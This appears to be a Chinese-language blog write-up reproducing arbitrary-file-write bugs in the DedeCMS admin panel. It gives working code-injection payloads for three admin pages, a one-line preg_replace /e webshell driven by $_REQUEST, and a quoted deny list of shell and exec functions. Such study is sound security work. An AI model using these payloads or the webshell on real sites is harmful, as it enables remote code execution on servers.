






# 对DedeCMS漏洞的复现


# 任意文件写入

  

## 直接写进去之因地制宜序列化绕过

  

`fwrite()`函数本身并没有什么危险，但如果参数可控就会带来 **恶意写入** 的问题。

  

搜索`fwrite()`得到`sys_safe_php`中有

  



  

有两个参数，

- `$fp` 打开文件`$safeconfigfile` 也就是`/safe/inc_safe_config.php&#34;;`

- `$configstr`，往上翻可以看到是由 `$faqs`经过一系列消杀得到的，而`faqs`又是一个数组，由`question`和`answer`两个参数构成。

  

接下来是弄清楚这是个什么文件。直接访问（登录了的情况下），会显示



  

如果还不够显而易见我们就对**问题**和**答案**随便输入什么，burp抓包会看见清楚的`question`和`answer`参数。

  

so the next is

  

研究代码：

  

```php

$safeconfigfile = DEDEDATA.&#34;/safe/inc_safe_config.php&#34;;

  

    //保存问答数组

    $faqs = array();

    for ($i = 1; $i &lt;= count($question)-1; $i&#43;&#43;)

    {

        $val = trim($question[$i]);

        if($val)

        {

            $faqs[$i][&#39;question&#39;] = str_replace(&#34;&#39;&#34;,&#34;\&#34;&#34;,stripslashes($val));

            $faqs[$i][&#39;answer&#39;] = stripslashes(trim($answer[$i]));

        }

    }

    //print_r($question);exit();

    $configstr .= &#34;\$safe_faqs = &#39;&#34;.serialize($faqs).&#34;&#39;;\r\n&#34;;

    $configstr = &#34;&lt;&#34;.&#34;?php\r\n&#34;.$configstr.&#34;?&#34;.&#34;&gt;\r\n&#34;;

    $fp = fopen($safeconfigfile, &#34;w&#34;) or die(&#34;写入文件 $safeconfigfile 失败，请检查权限！&#34;);

    fwrite($fp, $configstr);

    fclose($fp);

    ShowMsg(&#34;修改配置成功！&#34;,&#34;sys_safe.php&#34;);

    exit;

```

  

**截取重要片段**

  

- 对`question`的处理：用`trim`将`$val`中字符两侧的空白字符移除，再用- `str_replace()`函数将 `$val`中的`&#39;`换成`&#34;`，作为`$faqs[&#39;question&#39;]`的值。

- 对`answer`的处理：先用`trim`将`answer`进行删除两侧空白，再用`stripslashes()`函数删除反斜杠`\`，作为`$faqs[&#39;answer&#39;]`的值。

  

**接下来是序列化和执行语句的构成。**

  
  
  

- `$configstr .= &#34;\$safe_faqs = &#39;&#34;.serialize($faqs).&#34;&#39;;\r\n&#34;;`。序列化，那个点是是 PHP 中的“追加赋值”运算符，它将右侧表达式的值附加到左侧变量的末尾。

  - 这一句也相当于`$configstr = $configstr . &#34;\$safe_faqs = &#39;&#34;.serialize($faqs).&#34;&#39;;\r\n&#34;;`

  
  

- `$configstr = &#34;&lt;&#34;.&#34;?php\r\n&#34;.$configstr.&#34;?&#34;.&#34;&gt;\r\n&#34;;`。将增加序列化字符的`$configstr`进行拼接

  

- `&#34;&lt;&#34;.&#34;?php 和 ?&#34;.&#34;&gt;&#34; `是为了避免字符串中直接包含 `&lt;?php` 和 `?&gt;` 而导致的语法问题。通过将这两部分字符串拆分，在字符串拼接时避免了这个问题。

  
  

**总结一下**就是，`$question`两侧不能有空白字符、`&#39;`会被替换成`&#34;`，而`$answer`除了删空格，就是删`\`。而`$configstr`后面追加序列化的`$faqs`之后组装成一个可执行的php语句。

  
  

举一个例子：

  

```php

&lt;?php

  

$question = &#34;123&#39;&#34;;//这个单引号不写也是ok的，只是为了测试功能。

$answer = &#34;&#39;;phpinfo();//&#34;;

$faqs = array();

  

$val = trim($question);

if($val)

    {

        $faqs[&#39;question&#39;] = str_replace(&#34;&#39;&#34;,&#34;\&#34;&#34;,stripslashes($val));

        $faqs[&#39;answer&#39;] = stripslashes(trim($answer));

    }

  

echo &#39;$faqs:&#39;;

var_dump($faqs);

  

echo &#39;&lt;br&gt;line---------&lt;br&gt;&#39;;

  

//print_r($question);exit();

$configstr .= &#34;\$safe_faqs = &#39;&#34;.serialize($faqs).&#34;&#39;;\r\n&#34;;

$configstr = &#34;&lt;&#34;.&#34;?php\r\n&#34;.$configstr.&#34;?&#34;.&#34;&gt;\r\n&#34;;

  

echo &#39;序列化$faqs:&#39;;

var_dump(serialize($faqs));

  

$ec = &#34;result=&#39;&#34;.serialize($faqs).&#34;&#39;;&#34;;

  

echo &#39;&lt;br&gt;line----------&lt;br&gt;&#39;;

echo &#39;$ec:&#39;;

var_dump($ec);

  

?&gt;

```

  

结果：

```txt

$faqs:array(2) { [&#34;question&#34;]=&gt; string(4) &#34;123&#34;&#34; [&#34;answer&#34;]=&gt; string(14) &#34;&#39;;phpinfo();//&#34; }

line---------

序列化$faqs:string(67) &#34;a:2:{s:8:&#34;question&#34;;s:4:&#34;123&#34;&#34;;s:6:&#34;answer&#34;;s:14:&#34;&#39;;phpinfo();//&#34;;}&#34;

line----------

$ec:string(77) &#34;result=&#39;a:2:{s:8:&#34;question&#34;;s:4:&#34;123&#34;&#34;;s:6:&#34;answer&#34;;s:14:&#34;&#39;;phpinfo();//&#34;;}&#39;;&#34;

```

  

如果不行就看`/safe/inc_safe_config.php&#34;;`的内容吧。

  

所以根据上面的结果有了构造`question`和`answer`两个参数的思路。

  

- `$question`中增加`&#39;`使之在转化后变成`&#34;`

- `$answer`中增加`&#39;`使之提前闭合，`;phpinfo();//`则写入phpinfo()函数，`//`将后面的字符全部注释掉。

  
  

这样就完成了写入，再次访问就会得到phpinfo()界面。

  

ps（有无单引号）：

```txt

&#34;result=&#39;a:2:{s:8:&#34;question&#34;;s:4:&#34;123&#34;&#34;;s:6:&#34;answer&#34;;s:14:&#34;&#39;;phpinfo();//&#34;;}&#39;;&#34;

&#34;result=&#39;a:2:{s:8:&#34;question&#34;;s:3:&#34;123&#34;;s:6:&#34;answer&#34;;s:14:&#34;&#39;;phpinfo();//&#34;;}&#39;;&#34;

```

  
  

&lt;hr&gt;

  

## request外部支援

  

依旧是`fwrite()`函数。

`article_string_mix.php`

先看一眼是什么界面



  

没太看懂这个**字符串混淆防采集**，所以查了一下

&gt;字符串混淆是一种通过对代码中的字符串进行变换，使其难以直观理解的技术。这种技术经常被用于防止代码被轻松地分析、理解或者提取。在网页开发中，字符串混淆有时用于防止网页内容被简单的爬虫或采集工具获取。

  
  

接下来看代码，

  
  

```php

&lt;?php

if(empty($dopost)) $dopost = &#39;&#39;;

  

if(empty($allsource)) $allsource = &#39;&#39;;

else $allsource = stripslashes($allsource);

  

$m_file = DEDEDATA.&#34;/downmix.data.php&#34;;

  

//保存

if($dopost==&#34;save&#34;)

{

    csrf_check();

  

    global $cfg_disable_funs;

    $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : &#39;phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite&#39;;

    foreach (explode(&#34;,&#34;, $cfg_disable_funs) as $value) {

        $value = str_replace(&#34; &#34;, &#34;&#34;, $value);

        if(!empty($value) &amp;&amp; preg_match(&#34;#[^a-z]&#43;[&#39;\&#34;]*{$value}[&#39;\&#34;]*[\s]*[(]#i&#34;, &#34; {$allsource}&#34;) == TRUE) {

            $allsource = dede_htmlspecialchars($allsource);

            die(&#34;DedeCMS提示：当前页面中存在恶意代码！&lt;pre&gt;{$allsource}&lt;/pre&gt;&#34;);

        }

    }

  

    $fp = fopen($m_file,&#39;w&#39;);

    flock($fp,3);

    fwrite($fp,$allsource);

    fclose($fp);

    echo &#34;&lt;script&gt;alert(&#39;Save OK!&#39;);&lt;/script&gt;&#34;;

}

  

//读出

if(empty($allsource) &amp;&amp; filesize($m_file)&gt;0)

{

    $fp = fopen($m_file,&#39;r&#39;);

    $allsource = fread($fp,filesize($m_file));

    fclose($fp);

}

make_hash();

```

  

同样，只截取重要部分，

  

- `$m_file = DEDEDATA.&#34;/downmix.data.php&#34;;`要被写入`$allsource`的文件

  

打开该文件就会发现内容就是图片中的文字部分。

  

所以`$allsource`的内容就是写入那个框里的内容。

  

后面这段代码

```php

  

//全局定义

global $cfg_disable_funs;

  

//检查是否存在，不存在就定义

$cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : &#39;phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite&#39;;

  

/*使用 explode 函数将 $cfg_disable_funs 字符串按逗号分割成数组，

然后使用 foreach 循环遍历这个数组。

每个循环中的元素赋值给 $value 变量，

并通过 str_replace 去除可能存在的空格。

最后检查 $allsource 中是否包含禁用函数调用：*/

foreach (explode(&#34;,&#34;, $cfg_disable_funs) as $value) {

    $value = str_replace(&#34; &#34;, &#34;&#34;, $value);

    if(!empty($value) &amp;&amp; preg_match(&#34;#[^a-z]&#43;[&#39;\&#34;]*{$value}[&#39;\&#34;]*[\s]*[(]#i&#34;, &#34; {$allsource}&#34;) == TRUE) {

        $allsource = dede_htmlspecialchars($allsource);

        die(&#34;DedeCMS提示：当前页面中存在恶意代码！&lt;pre&gt;{$allsource}&lt;/pre&gt;&#34;);

        }

    }

```

  

看那个报错语句都知道是在做什么了，出现了`$cfg_disable_funs`中的字符，也就是非法函数引用，这个请求就会被毙掉。

  
  

调试中查看`$allsource`真正的值：

  

```txt

&lt;?php

//----------------------------

//以下为手工指定的混淆串

//----------------------------

#start#

#,织梦好，好织梦

#,本文来自织梦

#,织梦内容管理系统

#,dedecms.com

#,copyright dedecms

#,内容来自dedecms

#end#

?&gt;

```

  

而相同的内容是出现在`/downmix.data.php`中，也就是说，将恶意代码通过`$allsource`写入`/downmix.data.php`，再次访问该文件就可以执行。

  
  
  
  

简单在原代码基础上写一个demo

  

```php

&lt;?php

  

$allsource = &#39;123&#39;;

  

if(empty($allsource)) {

    $allsource = &#39;&#39;;

} else {

    $allsource = stripslashes($allsource);

}

  

global $cfg_disable_funs;

$cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : &#39;phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite&#39;;

  

foreach (explode(&#34;,&#34;, $cfg_disable_funs) as $valueToCheck) {

    $valueToCheck = str_replace(&#34; &#34;, &#34;&#34;, $valueToCheck);

  

    if(!empty($valueToCheck) &amp;&amp; preg_match(&#34;#[^a-z]&#43;[&#39;\&#34;]*{$valueToCheck}[&#39;\&#34;]*[\s]*[(]#i&#34;, &#34; {$allsource}&#34;) == TRUE) {

        $allsource = dede_htmlspecialchars($allsource);

        die(DedeCMS提示：当前页面中存在恶意代码！&lt;pre&gt;{$allsource}&lt;/pre&gt;);

    }

}

?&gt;

```

  
  

对`$allsource`的值进行修改，如果出现了违禁词，500黑屏。

  
  

所以考虑另一条路&lt;br&gt;

&lt;hr&gt;

通过REQUST方式

&gt;$_REQUEST 是 PHP 中一个超全局变量，用于收集 HTML 表单提交的数据，也可以收集 URL 中的数据。它包含了 $_GET、$_POST 以及 $_COOKIE 的内容。

  

写入`article_string_mix.php`的内容

  

```php

$a = $_REQUEST[&#39;v&#39;];

@preg_replace(&#34;/123/e&#34;, $a, &#34;1234567&#34;);

```

  

- `preg_replace` 函数使用参数 `$a` 替换字符串 `&#34;1234567&#34;` 中的匹配项。

- `/123/e` 中的 `123` 是一个简单的正则表达式，它匹配字符串中的 `123`。

- 当使用 `e` 修饰符时，`preg_replace` 会将替换字符串视为 PHP 代码，并将其执行。

  

belike:

  



  
  

然后就去访问`/downmix.data.php?v=phpinfo();`，得到phpinfo。（php版本高于5.6就不会成功）

  

或者用HackBar传入post body `v=phpinfo();`也行。

belike

  
  

补充一些，后面有个`article_template_rand.php`，和这个一样的模板。

  

&lt;hr&gt;

  

# 直接写入之单引号逃逸

  
  

## code浏览

  

`sys_info.php`

  

```php

&lt;?php

$configfile = DEDEDATA.&#39;/config.cache.inc.php&#39;;

  

//更新配置函数

function ReWriteConfig()

{

    global $dsql,$configfile;

    if(!is_writeable($configfile))

    {

        echo &#34;配置文件&#39;{$configfile}&#39;不支持写入，无法修改系统配置参数！&#34;;

        exit();

    }

    $fp = fopen($configfile,&#39;w&#39;);

    flock($fp,3);

    fwrite($fp,&#34;&lt;&#34;.&#34;?php\r\n&#34;);

    $dsql-&gt;SetQuery(&#34;SELECT `varname`,`type`,`value`,`groupid` FROM `#@__sysconfig` ORDER BY aid ASC &#34;);

    $dsql-&gt;Execute();

    while($row = $dsql-&gt;GetArray())

    {

        if($row[&#39;type&#39;]==&#39;number&#39;)

        {

            if($row[&#39;value&#39;]==&#39;&#39;) $row[&#39;value&#39;] = 0;

            fwrite($fp,&#34;\${$row[&#39;varname&#39;]} = &#34;.$row[&#39;value&#39;].&#34;;\r\n&#34;);

        }

        else

        {

            fwrite($fp,&#34;\${$row[&#39;varname&#39;]} = &#39;&#34;.str_replace(&#34;&#39;&#34;,&#39;&#39;,$row[&#39;value&#39;]).&#34;&#39;;\r\n&#34;);

        }

    }

    fwrite($fp,&#34;?&#34;.&#34;&gt;&#34;);

    fclose($fp);

}

  

//保存配置的改动

if($dopost==&#34;save&#34;)

{

    if(!isset($token)){

        echo &#39;No token found!&#39;;

        exit;

    }

  

    if(strcasecmp($token, $_SESSION[&#39;token&#39;]) !== 0){

        echo &#39;Token mismatch!&#39;;

        exit;

    }

    foreach($_POST as $k=&gt;$v)

    {

        if(preg_match(&#34;#^edit___#&#34;, $k))

        {

            $v = cn_substrR(${$k}, 1024);

        }

        else

        {

            continue;

        }

        $k = preg_replace(&#34;#^edit___#&#34;, &#34;&#34;, $k);

        $dsql-&gt;ExecuteNoneQuery(&#34;UPDATE `#@__sysconfig` SET `value`=&#39;$v&#39; WHERE varname=&#39;$k&#39; &#34;);

    }

    ReWriteConfig();

    ShowMsg(&#34;成功更改站点配置！&#34;, &#34;sys_info.php&#34;);

    exit();

}

//增加新变量

else if($dopost==&#39;add&#39;)

{

    if(!isset($token)){

        echo &#39;No token found!&#39;;

        exit;

    }

  

    if(strcasecmp($token, $_SESSION[&#39;token&#39;]) !== 0){

        echo &#39;Token mismatch!&#39;;

        exit;

    }

    if($vartype==&#39;bool&#39; &amp;&amp; ($nvarvalue!=&#39;Y&#39; &amp;&amp; $nvarvalue!=&#39;N&#39;))

    {

        ShowMsg(&#34;布尔变量值必须为&#39;Y&#39;或&#39;N&#39;!&#34;,&#34;-1&#34;);

        exit();

    }

    if(trim($nvarname)==&#39;&#39; || preg_match(&#34;#[^a-z_]#i&#34;, $nvarname) )

    {

        ShowMsg(&#34;变量名不能为空并且必须为[a-z_]组成!&#34;,&#34;-1&#34;);

        exit();

    }

    $row = $dsql-&gt;GetOne(&#34;SELECT varname FROM `#@__sysconfig` WHERE varname LIKE &#39;$nvarname&#39; &#34;);

    if(is_array($row))

    {

        ShowMsg(&#34;该变量名称已经存在!&#34;,&#34;-1&#34;);

        exit();

    }

    $row = $dsql-&gt;GetOne(&#34;SELECT aid FROM `#@__sysconfig` ORDER BY aid DESC &#34;);

    $aid = $row[&#39;aid&#39;] &#43; 1;

    $inquery = &#34;INSERT INTO `#@__sysconfig`(`aid`,`varname`,`info`,`value`,`type`,`groupid`)

    VALUES (&#39;$aid&#39;,&#39;$nvarname&#39;,&#39;$varmsg&#39;,&#39;$nvarvalue&#39;,&#39;$vartype&#39;,&#39;$vargroup&#39;)&#34;;

    $rs = $dsql-&gt;ExecuteNoneQuery($inquery);

    if(!$rs)

    {

        ShowMsg(&#34;新增变量失败，可能有非法字符！&#34;, &#34;sys_info.php?gp=$vargroup&#34;);

        exit();

    }

    if(!is_writeable($configfile))

    {

        ShowMsg(&#34;成功保存变量，但由于 $configfile 无法写入，因此不能更新配置文件！&#34;,&#34;sys_info.php?gp=$vargroup&#34;);

        exit();

    }else

    {

        ReWriteConfig();

        ShowMsg(&#34;成功保存变量并更新配置文件！&#34;,&#34;sys_info.php?gp=$vargroup&#34;);

        exit();

    }

}

  

make_hash();

include DedeInclude(&#39;templets/sys_info.htm&#39;);

```

  

简单浏览一遍，除了在更新配置的地方使用`str_replace(&#34;&#39;&#34;,&#39;&#39;,$row[&#39;value&#39;])`进行对`&#39;`的替换过滤，新增变量有着对非法字符的检查外，其实并没有特别的检查。

  

并且看到了明显的

```php

fwrite($fp,&#34;&lt;&#34;.&#34;?php\r\n&#34;);

//...省略

fwrite($fp,&#34;?&#34;.&#34;&gt;&#34;);

```

  

有执行语句。

  

&lt;hr&gt;

  

我们再去看`/config.cache.inc.php`的内容：



  

## payload

  

已经了解写入机制和写入结果后，考虑payload。

  

有些地方需要一点**绕过**，有些地方可以**直接写入**。

  

**直接写入**：

  

比如`$cfg_ddimg_width = 240;`和`$cfg_ddimg_height = 180;`，没有`&#39;`的包围。

在网站页面修改**缩略图默认宽度**为`phpinfo();`，访问`/config.cache.inc.php`就会得到界面。

  

&lt;hr&gt;

  

**绕过**

  

绕过`&#39;`也简单，使用`\`。

举例：

```php

&lt;?php

$a = &#39;abcd\&#39;;

$b = &#39;;phpinfo();/*efg&#39;;

?&gt;

```

  

依照这个例子

  

在 **主页链接名**写入`\`，在**网站发信EMAIL**处写`;phpinfo();/*`，就会使`phpinfo()`成功逃逸，进而可以被执行。

---

> Author:   
> URL: https://66lueflam144.github.io/posts/ca9003d/  

